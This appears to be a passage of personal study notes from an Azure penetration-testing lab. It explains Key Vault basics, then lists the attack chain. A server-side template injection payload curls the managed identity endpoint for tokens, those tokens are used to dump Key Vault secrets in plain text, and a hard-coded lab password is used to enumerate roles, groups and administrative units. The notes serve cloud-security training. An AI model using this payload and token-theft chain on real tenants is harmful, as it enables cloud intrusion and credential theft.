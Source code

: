 # Key Vault

#### Key Vault

* Azure service for storing secrets like passwords, connection strings, certificates, private keys etc.
* With right permissions and access, Azure resources that support managed identities (VMs, App Service, Functions, Container etc.) can securely retrieve secrets from the key vault.
* Object types available with a key vault:
  * Cryptographic Keys - RSA, EC etc.
  * Secrets - Passwords, connection strings
  * Certificates - Life cycle management
  * Storage account keys - Key vault can manage and rotate access keys for storage accounts
* Objects in a key vault are identified using Object Identifier URL.
*   The base URL is of the format :

    https://{vaultname}.vault.azure.net/{object-type}/{object-name}/{object-version}

    * vault-name is the globally unique name of the key vault
    * object-type can be "keys", "secrets" or "certificates"
    * object-name is unique name of the object within the key vault
    * object version is system generated and optionally used to address a unique version of an object.
* Access to a vault is controlled though two planes:
  * Management plane - To manage the key vault and access policies. Only Azure role based access control (RBAC) is supported.
  * Data plane - To manage the data (keys, secrets and certificates) in the key vault. This supports key vault access policies or Azure RBAC.
* Please note that a role (like Owner) that has permissions in the management plane to manage access policies can get access to the secrets by modifying the access policies.

**Privilege Escalation - Key Vault**



* If we can compromise an azure resource whose managed identity can read secrets from a key vault (due to an access policy or assigned one of the capable roles or a custom role), it may be possible to gain access to more resources.
* Note that each secret has its own IAM inherited from the KeyVault.
* Overly permissive access policies may result in access to data stored in a vault.

[![image.png](https://camo.githubusercontent.com/5146e9b18032f0cff8944959067c8f6dc1eb0b61e0575c3fb1715c486026bf28/68747470733a2f2f70726f642d66696c65732d7365637572652e73332e75732d776573742d322e616d617a6f6e6177732e636f6d2f33643765363133382d363363312d343264372d393463392d6637376165363731376664622f39626131323362332d346536302d343839612d623938632d6362636365356337613465312f696d6167652e706e67)](https://camo.githubusercontent.com/5146e9b18032f0cff8944959067c8f6dc1eb0b61e0575c3fb1715c486026bf28/68747470733a2f2f70726f642d66696c65732d7365637572652e73332e75732d776573742d322e616d617a6f6e6177732e636f6d2f33643765363133382d363363312d343264372d393463392d6637376165363731376664622f39626131323362332d346536302d343839612d623938632d6362636365356337613465312f696d6167652e706e67)

```powershell
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}

Connect-AzAccount -AccessToken $token -AccountId 2e91a4fe-a0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

Get-AzKeyVault
Get-AzKeyVaultSecret -VaultName ResearchKeyVault
Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader –AsPlainText
```

```powershell
$password = ConvertTo-SecureString 'Hav3Y0uLooked@KeyVault!!Azur3' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kathynschaefer@defcorphq.onmicrosoft.com', $password)
Connect-AzAccount -Credential $creds

# Enumerating resources
Get-AzResource

# Enumerating Role assignments
Get-AzRoleAssignment -Scope /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm

Get-AzRoleDefinition -Name "Virtual Machine Command Executor"
Get-AzADGroup -DisplayName 'VM Admins'
Get-AzADGroupMember -GroupDisplayName 'VM Admins' | select DisplayName
```

```powershell
(Get-AzAccessToken -ResourceUrl <https://graph.microsoft.com>).Token

$Token =  'eyJ0eX..'
$URI = ' <https://graph.microsoft.com/v1.0/users/VMContributorX@defcorphq.onmicrosoft.com/memberOf>'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

```powershell
# Gather information about the administrative unit
Connect-AzAccount -Credential $creds
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)

Get-MgDirectoryAdministrativeUnit -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395 | fl *
Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395 | fl *

(Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId e1e26d93-163e-42a2-a46e-1b7d52626395).RoleMemberInfo
Get-MgDirectoryRole -DirectoryRoleId 5b3935ed-b52d-4080-8b05-3a1832194d3a
Get-MgUser -UserId 8c088359-66fb-4253-ad0d-a91b82fd548a | fl *
```

\
